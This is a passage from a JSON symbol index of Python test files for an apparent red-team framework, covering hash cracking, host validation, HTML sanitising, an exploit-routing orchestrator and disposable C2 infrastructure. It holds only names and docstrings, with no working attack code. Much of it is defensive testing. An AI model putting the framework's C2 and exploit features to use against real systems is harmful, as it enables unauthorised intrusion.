"test_identify_file_with_hashes", "signature": "def test_identify_file_with_hashes(self, tmp_path)"}, {"kind": "method", "line": 85, "name": "test_identify_file_not_exists", "signature": "def test_identify_file_not_exists(self)"}, {"kind": "method", "line": 92, "name": "test_crack_result_defaults", "signature": "def test_crack_result_defaults(self)"}, {"kind": "method", "line": 102, "name": "test_crack_result_cracked", "signature": "def test_crack_result_cracked(self)"}, {"kind": "method", "line": 115, "name": "test_all_patterns_exist", "signature": "def test_all_patterns_exist(self)"}, {"kind": "method", "line": 123, "name": "test_wordlist_paths_are_strings", "signature": "def test_wordlist_paths_are_strings(self)"}, {"kind": "method", "line": 130, "name": "test_hash_identifier_fields", "signature": "def test_hash_identifier_fields(self)"}]}, {"doc": "Help/UI command set extraction tests.  SDD contract for the help/tutorial cluster split out of ``cli/commands/misc_migrated.py`` into ``cli/commands/help_ui.py``.  Stage A (pending): the new ``HelpUiCommandSet`` subclasses ``PendingCommandSet`` so it is discovered but not registered, coexisting with the originals. Tests assert structure plus AST parity with the original methods in ``misc_migrated.py``.  Stage B (active): after the originals are deleted and the base class is flipped to ``LazyOwnCommandSet``, tests assert registry discovery, active registration eligibility, and absence of the methods in ``misc_migrated.py``.", "id": "tests/test_help_ui_command_set.py", "kind": "module", "label": "test_help_ui_command_set.py", "language": "py", "sha256": "206ba3a0d734058d", "symbol_count": 9, "symbols": [{"kind": "function", "line": 32, "name": "_add_repo_root_to_syspath", "signature": "def _add_repo_root_to_syspath()"}, {"doc": "Centralised constants for the help UI extraction suite.", "kind": "class", "line": 38, "name": "HelpUiSuiteConfig", "signature": "class HelpUiSuiteConfig"}, {"kind": "function", "line": 65, "name": "_methods_of", "signature": "def _methods_of(path, class_name)"}, {"kind": "function", "line": 77, "name": "test_target_is_active_command_set", "signature": "def test_target_is_active_command_set()"}, {"kind": "function", "line": 86, "name": "test_target_exposes_full_help_cluster", "signature": "def test_target_exposes_full_help_cluster()"}, {"kind": "function", "line": 93, "name": "test_target_phase_metadata", "signature": "def test_target_phase_metadata()"}, {"kind": "function", "line": 99, "name": "test_source_no_longer_defines_cluster", "signature": "def test_source_no_longer_defines_cluster()"}, {"kind": "function", "line": 105, "name": "test_registry_registers_target", "signature": "def test_registry_registers_target()"}, {"kind": "function", "line": 112, "name": "test_no_command_collisions_with_source", "signature": "def test_no_command_collisions_with_source()"}]}, {"doc": "Single host-validation policy shared by CLI gates and hardening.  SDD contract: ``core.host_policy`` owns host shape validation. ``core.validators.check_*`` (UX gates with coloured errors) and ``core.hardening.validate_host`` (pure security predicate) both delegate to it, so the accept/reject sets cannot drift apart.", "id": "tests/test_host_policy.py", "kind": "module", "label": "test_host_policy.py", "language": "py", "sha256": "584a455be4eb52f7", "symbol_count": 9, "symbols": [{"kind": "class", "line": 51, "name": "TestSharedPolicy", "signature": "class TestSharedPolicy"}, {"kind": "class", "line": 73, "name": "TestCliGatesDelegate", "signature": "class TestCliGatesDelegate"}, {"kind": "method", "line": 52, "name": "test_valid_hosts_accepted", "signature": "def test_valid_hosts_accepted(self)"}, {"kind": "method", "line": 57, "name": "test_invalid_hosts_rejected", "signature": "def test_invalid_hosts_rejected(self)"}, {"kind": "method", "line": 62, "name": "test_shell_meta_rejected", "signature": "def test_shell_meta_rejected(self)"}, {"kind": "method", "line": 67, "name": "test_pinned_quirks_unchanged", "signature": "def test_pinned_quirks_unchanged(self)"}, {"kind": "method", "line": 74, "name": "test_check_rhost_matches_policy", "signature": "def test_check_rhost_matches_policy(self, capsys)"}, {"kind": "method", "line": 81, "name": "test_check_lhost_matches_policy", "signature": "def test_check_lhost_matches_policy(self, capsys)"}, {"kind": "method", "line": 88, "name": "test_check_lport_unchanged", "signature": "def test_check_lport_unchanged(self, capsys)"}]}, {"doc": "TDD tests for the bleach-based HTML sanitizer contract.  Contract: ``lazyc2.security.html_sanitizer.sanitize_html`` strips all dangerous tags and attributes from a snippet of HTML while keeping the benign formatting tags operators rely on for notes and reports.  Invariants:  1. ``<script>...</script>`` is removed entirely. 2. ``<iframe>``, ``<object>``, ``<embed>``, and ``<style>`` are removed. 3. ``on*=`` event handlers (e.g. ``onerror``, ``onclick``) are stripped. 4. ``javascript:`` URIs in ``href`` and ``src`` are stripped. 5. Benign tags (``p``, ``strong``, ``em``, ``ul``, ``ol``, ``li``, ``a``, ``code``, ``pre``, ``h1``..``h6``, ``blockquote``) survive untouched. 6. The ``allowed_tags`` and ``allowed_attributes`` can be overridden by the caller; the defaults are derived from :mod:`lazyc2.security.constants`.", "id": "tests/test_html_sanitizer.py", "kind": "module", "label": "test_html_sanitizer.py", "language": "py", "sha256": "a827076312e83769", "symbol_count": 16, "symbols": [{"doc": "Dangerous script blocks must be removed.", "kind": "class", "line": 25, "name": "TestScriptStripping", "signature": "class TestScriptStripping"}, {"doc": "Inline event handlers must be removed.", "kind": "class", "line": 49, "name": "TestEventHandlerStripping", "signature": "class TestEventHandlerStripping"}, {"doc": "``javascript:`` URIs must be neutralised.", "kind": "class", "line": 63, "name": "TestJavascriptUriStripping", "signature": "class TestJavascriptUriStripping"}, {"doc": "Benign formatting tags must survive untouched.", "kind": "class", "line": 71, "name": "TestBenignTagsPreserved", "signature": "class TestBenignTagsPreserved"}, {"doc": "Allowlist overrides must be honoured.", "kind": "class", "line": 93, "name": "TestCustomAllowlist", "signature": "class TestCustomAllowlist"}, {"kind": "method", "line": 28, "name": "test_script_block_removed", "signature": "def test_script_block_removed(self)"}, {"kind": "method", "line": 33, "name": "test_iframe_removed", "signature": "def test_iframe_removed(self)"}, {"kind": "method", "line": 38, "name": "test_object_and_embed_removed", "signature": "def test_object_and_embed_removed(self)"}, {"kind": "method", "line": 43, "name": "test_style_removed", "signature": "def test_style_removed(self)"}, {"kind": "method", "line": 52, "name": "test_onclick_removed", "signature": "def test_onclick_removed(self)"}, {"kind": "method", "line": 57, "name": "test_onerror_removed", "signature": "def test_onerror_removed(self)"}, {"kind": "method", "line": 66, "name": "test_javascript_href_stripped", "signature": "def test_javascript_href_stripped(self)"}, {"kind": "method", "line": 74, "name": "test_basic_formatting_preserved", "signature": "def test_basic_formatting_preserved(self)"}, {"kind": "method", "line": 81, "name": "test_lists_preserved", "signature": "def test_lists_preserved(self)"}, {"kind": "method", "line": 86, "name": "test_headings_preserved", "signature": "def test_headings_preserved(self)"}, {"kind": "method", "line": 96, "name": "test_strict_allowlist_strips_more", "signature": "def test_strict_allowlist_strips_more(self)"}]}, {"doc": "TDD tests for the HTTPS redirect contract.  Contract: ``lazyc2.security.https_redirect.HTTPSRedirect`` returns the response a Flask ``before_request`` handler should produce to force the client onto TLS in PROD, while leaving DEV traffic alone.  Invariants:  1. ``is_secure=True`` request: no redirect (None returned). 2. ``is_secure=False`` + ``env=\"PROD\"``: a 301 redirect to the same URL with the scheme replaced by ``https``. 3. ``is_secure=False`` + ``env=\"DEV\"``: no redirect. 4. The path and query string of the request are preserved in the redirect target. 5. The host header is preserved.", "id": "tests/test_https_redirect.py", "kind": "module", "label": "test_https_redirect.py", "language": "py", "sha256": "44acf13b414b502b", "symbol_count": 11, "symbols": [{"kind": "class", "line": 23, "name": "_FakeRequest", "signature": "class _FakeRequest"}, {"doc": "Verify the redirect logic.", "kind": "class", "line": 34, "name": "TestHTTPSRedirect", "signature": "class TestHTTPSRedirect"}, {"doc": "Verify the dataclass returned to Flask.", "kind": "class", "line": 74, "name": "TestRedirectResponseShape", "signature": "class TestRedirectResponseShape"}, {"kind": "method", "line": 24, "name": "__init__", "signature": "def __init__(self, is_secure, host, path, query_string)"}, {"kind": "method", "line": 37, "name": "test_secure_request_passes_through", "signature": "def test_secure_request_passes_through(self)"}, {"kind": "method", "line": 42, "name": "test_insecure_in_prod_redirects_to_https", "signature": "def test_insecure_in_prod_redirects_to_https(self)"}, {"kind": "method", "line": 50, "name": "test_insecure_in_dev_passes_through", "signature": "def test_insecure_in_dev_passes_through(self)"}, {"kind": "method", "line": 55, "name": "test_insecure_when_disabled_passes_through", "signature": "def test_insecure_when_disabled_passes_through(self)"}, {"kind": "method", "line": 60, "name": "test_query_string_preserved", "signature": "def test_query_string_preserved(self)"}, {"kind": "method", "line": 67, "name": "test_root_path_preserved", "signature": "def test_root_path_preserved(self)"}, {"kind": "method", "line": 77, "name": "test_response_is_named_tuple_like", "signature": "def test_response_is_named_tuple_like(self)"}]}, {"doc": "Spec-driven validation of the three priority improvements.  This module is intentionally self-contained: it depends only on the Python standard library plus the modules under test. No pytest fixtures, no external mocks, no network access. It can be executed via ``python3 -m unittest tests/test_improvements_spec.py`` or under pytest.  Specs are derived from the following authoritative documents already checked into the repository:  * ``CLAUDE.md`` — coding standards (no magic numbers / hardcoded paths, SOLID, English-only, docstrings everywhere, atomic file writes, sessions/ as the only durable cross-process location, no duplicate ``class Config``). * ``COMMANDS.md`` — auto-generated command surface contract (every ``do_*`` carries a docstring used as ``help <name>``). * ``QUICKSTART.md`` — operator flow (status bar must surface target, phase, last finding, next suggestion). * ``skills/lazyown.md`` — MCP playbook (single canonical orchestrator entry point). * ``graphify-out/graph_lazyown.json`` — self-knowledge graph (the suggestion source must degrade gracefully when the graph is missing or unreadable).  Each test name encodes the spec it asserts so failures map back to a specific requirement.", "id": "tests/test_improvements_spec.py", "kind": "module", "label": "test_improvements_spec.py", "language": "py", "sha256": "dffc65df8d7c2a1a", "symbol_count": 160, "symbols": [{"doc": "Minimal cmd2 stand-in that records hook registrations.", "kind": "class", "line": 77, "name": "_FakeShell", "signature": "class _FakeShell"}, {"kind": "class", "line": 90, "name": "_FakeEngagement", "signature": "class _FakeEngagement"}, {"kind": "class", "line": 98, "name": "_FakeQueen", "signature": "class _FakeQueen"}, {"kind": "class", "line": 117, "name": "_FakeSwanResult", "signature": "class _FakeSwanResult"}, {"kind": "class", "line": 126, "name": "_FakeSwanOrchestrator", "signature": "class _FakeSwanOrchestrator"}, {"kind": "class", "line": 134, "name": "_FakeAdvisor", "signature": "class _FakeAdvisor"}, {"kind": "function", "line": 142, "name": "_build_test_orchestrator", "signature": "def _build_test_orchestrator(tmp_root, daemon_available, hive_available, swan_available, daemon_payload)"}, {"kind": "class", "line": 172, "name": "_UnavailableBackend", "signature": "class _UnavailableBackend"}, {"doc": "Spec 1.A — Config encapsulates every tunable.\n\nCLAUDE.md §3 & §10 require no magic numbers or hardcoded paths.\nThe dataclass must therefore expose every value the bar relies on.", "kind": "class", "line": 183, "name": "StatusBarConfigSpec", "signature": "class StatusBarConfigSpec(TestCase)"}, {"doc": "Spec 1.B — FileSystemReader is hardened against path traversal.", "kind": "class", "line": 205, "name": "StatusBarSecuritySpec", "signature": "class StatusBarSecuritySpec(TestCase)"}, {"doc": "Spec 1.C — Renderer sanitises, truncates and ANSI-wraps.", "kind": "class", "line": 239, "name": "StatusBarRendererSpec", "signature": "class StatusBarRendererSpec(TestCase)"}, {"doc": "Spec 1.D — Manager wires sources and installs onto the shell.", "kind": "class", "line": 278, "name": "StatusBarManagerSpec", "signature": "class StatusBarManagerSpec(TestCase)"}, {"doc": "Spec 1.E — Concrete sources prefer richer data and fall back cleanly.", "kind": "class", "line": 350, "name": "StatusBarSourceSpec", "signature": "class StatusBarSourceSpec(TestCase)"}, {"doc": "Spec 1.F — build_default_manager wires the canonical four sources.", "kind": "class", "line": 395, "name": "StatusBarFactorySpec", "signature": "class StatusBarFactorySpec(TestCase)"}, {"doc": "Spec 2.A — GoalValidator enforces invariants at the boundary.", "kind": "class", "line": 404, "name": "OrchestratorGoalValidationSpec", "signature": "class OrchestratorGoalValidationSpec(TestCase)"}, {"doc": "Spec 2.B — Registry enforces unique, named backends.", "kind": "class", "line": 444, "name": "BackendRegistrySpec", "signature": "class BackendRegistrySpec(TestCase)"}, {"doc": "Spec 2.C — Router chooses backends by intent, not by accident.", "kind": "class", "line": 477, "name": "RouterPolicySpec", "signature": "class RouterPolicySpec(TestCase)"}, {"doc": "Spec 2.D — EventBus persists atomically and bounds payloads.", "kind": "class", "line": 518, "name": "EventBusSpec", "signature": "class EventBusSpec(TestCase)"}, {"doc": "Spec 2.E — Adapters never raise; they normalise into OrchestratorResult.", "kind": "class", "line": 550, "name": "BackendAdapterSpec", "signature": "class BackendAdapterSpec(TestCase)"}, {"doc": "Spec 2.F — End-to-end facade emits events and never raises.", "kind": "class", "line": 601, "name": "UnifiedOrchestratorSpec", "signature": "class UnifiedOrchestratorSpec(TestCase)"}, {"doc": "Spec 3.A — utils.py must not redeclare class Config.\n\nCLAUDE.md §7 documented a long-standing duplicate Config defect.\nOnce removed, the canonical class lives in core.config. This test is\nthe regression guard: if a future change reintroduces a class Config\nline in utils.py the test fails loudly.", "kind": "class", "line": 649, "name": "ConfigDedupeSpec", "signature": "class ConfigDedupeSpec(TestCase)"}, {"doc": "Spec 3.B — OrchestrationCommandSet is discovered as active.\n\nDiscovery walks every module under ``cli.commands.*`` via importlib.\nSome of those modules transitively import ``utils.py`` which parses\n``sys.argv`` at import time. Unittest passes ``-v`` which collides\nwith that parser, so the test temporarily neutralises ``sys.argv``\nwhile discovery runs and restores it after.", "kind": "class", "line": 673, "name": "CommandSetActivationSpec", "signature": "class CommandSetActivationSpec(TestCase)"}, {"doc": "Spec 3.C — CLAUDE.md §10.4 mandates docstrings on every public symbol.", "kind": "class", "line": 706, "name": "DocstringDisciplineSpec", "signature": "class DocstringDisciplineSpec(TestCase)"}, {"doc": "Spec 4.A — Suggestion source degrades when the graph is missing.\n\nQUICKSTART.md and §15a state that the graph is optional. The status\nbar must therefore never raise when ``graphify-out/`` is absent.", "kind": "class", "line": 745, "name": "GraphifyAvailabilitySpec", "signature": "class GraphifyAvailabilitySpec(TestCase)"}, {"doc": "Spec 5 — regression guards for the two live-shell wiring bugs.\n\nBug 1: ``self.__dict__.get('_cmd')`` returns ``None`` because cmd2\n    exposes the shell through a property, not an instance attribute.\n    The OrchestrationCommandSet must use ``self._cmd`` so the bound\n    shell is resolved correctly.\n\nBug 2: ``cmd2.Cmd.register_precmd_hook`` validates that the callable\n    has the exact type annotations ``PrecommandData`` on both the\n    parameter and the return. Hooks built with looser typing are\n    silently rejected and the status bar never updates after install.", "kind": "class", "line": 767, "name": "CmdIntegrationRegressionSpec", "signature": "class CmdIntegrationRegressionSpec(TestCase)"}, {"doc": "Spec 6 — behavioural fixes derived from the operator session log.\n\nThree concrete regressions were observed in the live shell:\n\n* The status bar showed ``next: OllamaModel`` — a graph-node class\n  name rather than a command verb. The suggestion source must\n  surface kill-chain / phase-priority verbs.\n* ``[ ... ] ╔══[...]`` rendered on the same physical line as the\n  multi-line custom prompt. The default ``prompt_join`` must place\n  the bar on its own line.\n* ``orchestrate --phase recon 'get ports'`` routed to SWAN with the\n  hardcoded ``exploit_generation`` task_type. The router must score\n  on the goal text only when ``task_type`` is unset, and the daemon\n  must fall back to ``payload.rhost`` for the target.", "kind": "class", "line": 844, "name": "LiveShellBehaviourSpec", "signature": "class LiveShellBehaviourSpec(TestCase)"}, {"doc": "Spec 4.B — Default factories produce ready-to-use objects.", "kind": "class", "line": 996, "name": "FactoryWiringSpec", "signature": "class FactoryWiringSpec(TestCase)"}, {"kind": "method", "line": 80, "name": "__init__", "signature": "def __init__(self, custom_prompt)"}, {"kind": "method", "line": 86, "name": "register_precmd_hook", "signature": "def register_precmd_hook(self, hook)"}, {"kind": "method", "line": 91, "name": "__init__", "signature": "def __init__(self, payload)"}, {"kind": "method", "line": 94, "name": "run", "signature": "def run(self)"}, {"kind": "method", "line": 99, "name": "__init__", "signature": "def __init__(self, drones, summary)"}, {"kind": "method", "line": 103, "name": "plan", "signature": "def plan(self, goal, n_drones)"}, {"kind": "method", "line": 107, "name": "dispatch", "signature": "def dispatch(self, tasks)"}, {"kind": "method", "line": 110, "name": "collect", "signature": "def collect(self, ids)"}, {"kind": "method", "line": 113, "name": "synthesize", "signature": "def synthesize(self, results)"}, {"kind": "method", "line": 118, "name": "__init__", "signature": "def __init__(self, text, expert_id)"}, {"kind": "method", "line": 127, "name": "__init__", "signature": "def __init__(self, result)"}, {"kind": "method", "line": 130, "name": "run", "signature": "def run(self, task_type, goal, engagement_phase, timeout)"}, {"kind": "method", "line": 135, "name": "__init__", "signature": "def __init__(self, suggestions)"}, {"kind": "method", "line": 138, "name": "suggest_next", "signature": "def suggest_next(self, recent_commands, limit)"}, {"kind": "method", "line": 173, "name": "__init__", "signature": "def __init__(self, name)"}, {"kind": "method", "line": 176, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 179, "name": "run", "signature": "def run(self, goal)"}, {"kind": "method", "line": 190, "name": "test_config_is_immutable_dataclass", "signature": "def test_config_is_immutable_dataclass(self)"}, {"kind": "method", "line": 196, "name": "test_config_overrides_from_payload", "signature": "def test_config_overrides_from_payload(self)"}, {"kind": "method", "line": 200, "name": "test_config_ignores_invalid_overrides", "signature": "def test_config_ignores_invalid_overrides(self)"}, {"kind": "method", "line": 208, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 213, "name": "tearDown", "signature": "def tearDown(self)"}, {"kind": "method", "line": 216, "name": "_reader", "signature": "def _reader(self)"}, {"kind": "method", "line": 219, "name": "test_reader_rejects_parent_traversal", "signature": "def test_reader_rejects_parent_traversal(self)"}, {"kind": "method", "line": 222, "name": "test_reader_rejects_absolute_paths", "signature": "def test_reader_rejects_absolute_paths(self)"}, {"kind": "method", "line": 225, "name": "test_reader_bounds_file_size", "signature": "def test_reader_bounds_file_size(self)"}, {"kind": "method", "line": 231, "name": "test_reader_returns_empty_on_missing_file", "signature": "def test_reader_returns_empty_on_missing_file(self)"}, {"kind": "method", "line": 234, "name": "test_reader_invalid_json_returns_none", "signature": "def test_reader_invalid_json_returns_none(self)"}, {"kind": "method", "line": 242, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 246, "name": "test_render_plain_contains_all_fields", "signature": "def test_render_plain_contains_all_fields(self)"}, {"kind": "method", "line": 252, "name": "test_render_truncates_to_max_chars", "signature": "def test_render_truncates_to_max_chars(self)"}, {"kind": "method", "line": 258, "name": "test_render_strips_dangerous_substrings", "signature": "def test_render_strips_dangerous_substrings(self)"}, {"kind": "method", "line": 263, "name": "test_render_prompt_defaults_to_raw_ansi_for_prompt_toolkit", "signature": "def test_render_prompt_defaults_to_raw_ansi_for_prompt_toolkit(self)"}, {"kind": "method", "line": 270, "name": "test_render_prompt_opt_in_readline_mode_wraps_ansi_with_markers", "signature": "def test_render_prompt_opt_in_readline_mode_wraps_ansi_with_markers(self)"}, {"kind": "method", "line": 281, "name": "test_missing_source_key_raises", "signature": "def test_missing_source_key_raises(self)"}, {"kind": "method", "line": 286, "name": "test_collect_context_uses_fallbacks_on_failure", "signature": "def test_collect_context_uses_fallbacks_on_failure(self)"}, {"kind": "method", "line": 304, "name": "test_enabled_flag_accepts_strings_and_bools", "signature": "def test_enabled_flag_accepts_strings_and_bools(self)"}, {"kind": "method", "line": 325, "name": "test_install_registers_precmd_hook", "signature": "def test_install_registers_precmd_hook(self)"}, {"kind": "method", "line": 353, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 359, "name": "tearDown", "signature": "def tearDown(self)"}, {"kind": "method", "line": 362, "name": "test_payload_target_picks_first_non_empty_key", "signature": "def test_payload_target_picks_first_non_empty_key(self)"}, {"kind": "method", "line": 366, "name": "test_payload_target_falls_back_to_default", "signature": "def test_payload_target_falls_back_to_default(self)"}, {"kind": "method", "line": 370, "name": "test_phase_prefers_world_model_over_payload", "signature": "def test_phase_prefers_world_model_over_payload(self)"}, {"kind": "method", "line": 375, "name": "test_finding_prefers_credentials_over_notes", "signature": "def test_finding_prefers_credentials_over_notes(self)"}, {"kind": "method", "line": 381, "name": "test_suggestion_uses_advisor_when_available", "signature": "def test_suggestion_uses_advisor_when_available(self)"}, {"kind": "method", "line": 386, "name": "test_suggestion_falls_back_when_advisor_raises", "signature": "def test_suggestion_falls_back_when_advisor_raises(self)"}, {"kind": "method", "line": 398, "name": "test_factory_returns_manager_with_four_sources", "signature": "def test_factory_returns_manager_with_four_sources(self)"}, {"kind": "method", "line": 407, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 411, "name": "test_empty_goal_is_rejected", "signature": "def test_empty_goal_is_rejected(self)"}, {"kind": "method", "line": 415, "name": "test_unknown_mode_is_rejected", "signature": "def test_unknown_mode_is_rejected(self)"}, {"kind": "method", "line": 419, "name": "test_long_goal_is_bounded", "signature": "def test_long_goal_is_bounded(self)"}, {"kind": "method", "line": 424, "name": "test_defaults_are_applied", "signature": "def test_defaults_are_applied(self)"}, {"kind": "method", "line": 429, "name": "test_task_type_stays_empty_when_unset", "signature": "def test_task_type_stays_empty_when_unset(self)"}, {"kind": "method", "line": 433, "name": "test_numeric_fields_stay_zero_when_unset", "signature": "def test_numeric_fields_stay_zero_when_unset(self)"}, {"kind": "method", "line": 438, "name": "test_metadata_carries_request_id", "signature": "def test_metadata_carries_request_id(self)"}, {"kind": "method", "line": 447, "name": "test_duplicate_name_raises", "signature": "def test_duplicate_name_raises(self)"}, {"kind": "method", "line": 452, "name": "test_empty_name_raises", "signature": "def test_empty_name_raises(self)"}, {"kind": "method", "line": 465, "name": "test_order_is_preserved", "signature": "def test_order_is_preserved(self)"}, {"kind": "method", "line": 480, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 492, "name": "test_explicit_mode_overrides_router", "signature": "def test_explicit_mode_overrides_router(self)"}, {"kind": "method", "line": 496, "name": "test_auto_picks_daemon_when_target_present", "signature": "def test_auto_picks_daemon_when_target_present(self)"}, {"kind": "method", "line": 500, "name": "test_auto_picks_hive_on_swarm_keyword", "signature": "def test_auto_picks_hive_on_swarm_keyword(self)"}, {"kind": "method", "line": 504, "name": "test_auto_picks_swan_on_exploit_keyword", "signature": "def test_auto_picks_swan_on_exploit_keyword(self)"}, {"kind": "method", "line": 508, "name": "test_unavailable_explicit_mode_returns_none", "signature": "def test_unavailable_explicit_mode_returns_none(self)"}, {"kind": "method", "line": 521, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 527, "name": "tearDown", "signature": "def tearDown(self)"}, {"kind": "method", "line": 530, "name": "test_emit_appends_jsonline", "signature": "def test_emit_appends_jsonline(self)"}, {"kind": "method", "line": 537, "name": "test_emit_rejects_oversize_event", "signature": "def test_emit_rejects_oversize_event(self)"}, {"kind": "method", "line": 541, "name": "test_emit_rejects_non_serialisable", "signature": "def test_emit_rejects_non_serialisable(self)"}, {"kind": "method", "line": 544, "name": "test_file_permissions_are_restrictive", "signature": "def test_file_permissions_are_restrictive(self)"}, {"kind": "method", "line": 553, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 558, "name": "tearDown", "signature": "def tearDown(self)"}, {"kind": "method", "line": 561, "name": "_goal", "signature": "def _goal(self)"}, {"kind": "method", "line": 565, "name": "test_daemon_requires_target", "signature": "def test_daemon_requires_target(self)"}, {"kind": "method", "line": 570, "name": "test_daemon_normalises_dict_result", "signature": "def test_daemon_normalises_dict_result(self)"}, {"kind": "method", "line": 577, "name": "test_hive_runs_full_lifecycle", "signature": "def test_hive_runs_full_lifecycle(self)"}, {"kind": "method", "line": 584, "name": "test_swan_normalises_result_object", "signature": "def test_swan_normalises_result_object(self)"}, {"kind": "method", "line": 590, "name": "test_backend_returns_error_when_engine_raises", "signature": "def test_backend_returns_error_when_engine_raises(self)"}, {"kind": "method", "line": 604, "name": "setUp", "signature": "def setUp(self)"}, {"kind": "method", "line": 608, "name": "tearDown", "signature": "def tearDown(self)"}, {"kind": "method", "line": 611, "name": "_events", "signature": "def _events(self)"}, {"kind": "method", "line": 617, "name": "test_validation_error_returns_invalid_result", "signature": "def test_validation_error_returns_invalid_result(self)"}, {"kind": "method", "line": 623, "name": "test_unavailable_backend_returns_unavailable_result", "signature": "def test_unavailable_backend_returns_unavailable_result(self)"}, {"kind": "method", "line": 628, "name": "test_auto_routes_with_target_to_daemon", "signature": "def test_auto_routes_with_target_to_daemon(self)"}, {"kind": "method", "line": 634, "name": "test_event_is_emitted_per_execution", "signature": "def test_event_is_emitted_per_execution(self)"}, {"kind": "method", "line": 642, "name": "test_result_to_dict_is_json_serialisable", "signature": "def test_result_to_dict_is_json_serialisable(self)"}, {"kind": "method", "line": 658, "name": "test_utils_has_no_class_config", "signature": "def test_utils_has_no_class_config(self)"}, {"kind": "method", "line": 664, "name": "test_core_config_is_canonical", "signature": "def test_core_config_is_canonical(self)"}, {"kind": "method", "line": 683, "name": "_discover", "signature": "def _discover(self)"}, {"kind": "method", "line": 691, "name": "test_orchestration_set_is_active", "signature": "def test_orchestration_set_is_active(self)"}, {"kind": "method", "line": 697, "name": "test_orchestration_set_exposes_required_verbs", "signature": "def test_orchestration_set_exposes_required_verbs(self)"}, {"kind": "method", "line": 701, "name": "test_orchestration_set_phase_and_category_set", "signature": "def test_orchestration_set_phase_and_category_set(self)"}, {"kind": "method", "line": 709, "name": "test_every_class_in_new_modules_has_docstring", "signature": "def test_every_class_in_new_modules_has_docstring(self)"}, {"kind": "method", "line": 724, "name": "test_modules_avoid_emoji_in_source", "signature": "def test_modules_avoid_emoji_in_source(self)"}, {"kind": "method", "line": 752, "name": "test_suggestion_fallback_when_factory_none", "signature": "def test_suggestion_fallback_when_factory_none(self)"}, {"kind": "method", "line": 758, "name": "test_graph_file_is_valid_json_when_present", "signature": "def test_graph_file_is_valid_json_when_present(self)"}, {"kind": "method", "line": 781, "name": "test_command_set_resolves_shell_via_cmd_property", "signature": "def test_command_set_resolves_shell_via_cmd_property(self)"}, {"kind": "method", "line": 795, "name": "test_status_bar_install_registers_precmd_hook_on_real_cmd2", "signature": "def test_status_bar_install_registers_precmd_hook_on_real_cmd2(self)"}, {"kind": "method", "line": 818, "name": "test_orchestration_commandset_finds_managers_on_bound_shell", "signature": "def test_orchestration_commandset_finds_managers_on_bound_shell(self)"}, {"kind": "method", "line": 861, "name": "test_default_prompt_join_is_newline", "signature": "def test_default_prompt_join_is_newline(self)"}, {"kind": "method", "line": 866, "name": "test_command_hint_source_returns_kill_chain_verb", "signature": "def test_command_hint_source_returns_kill_chain_verb(self)"}, {"kind": "method", "line": 892, "name": "test_command_hint_source_falls_back_when_provider_raises", "signature": "def test_command_hint_source_falls_back_when_provider_raises(self)"}, {"kind": "method", "line": 913, "name": "test_command_hints_helper_returns_phase_priority_verbs", "signature": "def test_command_hints_helper_returns_phase_priority_verbs(self)"}, {"kind": "method", "line": 921, "name": "test_daemon_falls_back_to_payload_rhost", "signature": "def test_daemon_falls_back_to_payload_rhost(self)"}, {"kind": "method", "line": 946, "name": "test_router_picks_daemon_when_only_payload_supplies_target", "signature": "def test_router_picks_daemon_when_only_payload_supplies_target(self)"}, {"kind": "method", "line": 970, "name": "test_router_ignores_unset_task_type_for_keyword_scoring", "signature": "def test_router_ignores_unset_task_type_for_keyword_scoring(self)"}, {"kind": "method", "line": 999, "name": "test_build_default_orchestrator_registers_three_backends", "signature": "def test_build_default_orchestrator_registers_three_backends(self)"}, {"kind": "method", "line": 1003, "name": "test_build_default_manager_does_not_touch_filesystem", "signature": "def test_build_default_manager_does_not_touch_filesystem(self)"}, {"kind": "function", "line": 154, "name": "_make_engine", "signature": "def _make_engine(goal)"}, {"kind": "class", "line": 289, "name": "_Broken", "signature": "class _Broken"}, {"kind": "class", "line": 308, "name": "_Static", "signature": "class _Static"}, {"kind": "class", "line": 329, "name": "_Static", "signature": "class _Static"}, {"kind": "class", "line": 387, "name": "_Broken", "signature": "class _Broken"}, {"kind": "class", "line": 453, "name": "_Unnamed", "signature": "class _Unnamed"}, {"kind": "class", "line": 591, "name": "_Boom", "signature": "class _Boom"}, {"kind": "function", "line": 730, "name": "contains_emoji", "signature": "def contains_emoji(text)"}, {"kind": "class", "line": 786, "name": "_Shell", "signature": "class _Shell(Cmd)"}, {"kind": "class", "line": 798, "name": "_Shell", "signature": "class _Shell(Cmd)"}, {"kind": "class", "line": 823, "name": "_Shell", "signature": "class _Shell(Cmd)"}, {"kind": "function", "line": 899, "name": "broken", "signature": "def broken()"}, {"kind": "function", "line": 931, "name": "factory", "signature": "def factory(goal)"}, {"kind": "method", "line": 290, "name": "collect", "signature": "def collect(self)"}, {"kind": "method", "line": 309, "name": "__init__", "signature": "def __init__(self, value)"}, {"kind": "method", "line": 312, "name": "collect", "signature": "def collect(self)"}, {"kind": "method", "line": 330, "name": "__init__", "signature": "def __init__(self, value)"}, {"kind": "method", "line": 333, "name": "collect", "signature": "def collect(self)"}, {"kind": "method", "line": 388, "name": "suggest_next", "signature": "def suggest_next(self)"}, {"kind": "method", "line": 456, "name": "available", "signature": "def available(self)"}, {"kind": "method", "line": 459, "name": "run", "signature": "def run(self, goal)"}, {"kind": "method", "line": 592, "name": "run", "signature": "def run(self)"}, {"kind": "function", "line": 878, "name": "fake_hints", "signature": "def fake_hints(last_cmd, phase, sessions_dir, limit)"}, {"kind": "class", "line": 934, "name": "_Engine", "signature": "class _Engine"}, {"kind": "method", "line": 935, "name": "run", "signature": "def run(self_inner)"}]}, {"doc": "TDD unit tests for the disposable infrastructure contracts.  Covers ``cli.commands.infra``, ``modules.c2_builder`` fallback helpers, ``modules.professional_report`` loot/history/summary, ``modules.redteam_gym`` range challenges, ``cli.commands.lab`` range profiles, and the ``c2_fallback_urls`` payload schema slot.", "id": "tests/test_infra_disposable.py", "kind": "module", "label": "test_infra_disposable.py", "language": "py", "sha256": "75458ac9721313c9", "symbol_count": 35, "symbols": [{"doc": "Tunnel log parsing dedupes quick-tunnel URLs preserving order.", "kind": "function", "line": 16, "name": "test_parse_tunnel_urls_dedupes", "signature": "def test_parse_tunnel_urls_dedupes()"}, {"doc": "Logs without tunnel URLs yield an empty list.", "kind": "function", "line": 31, "name": 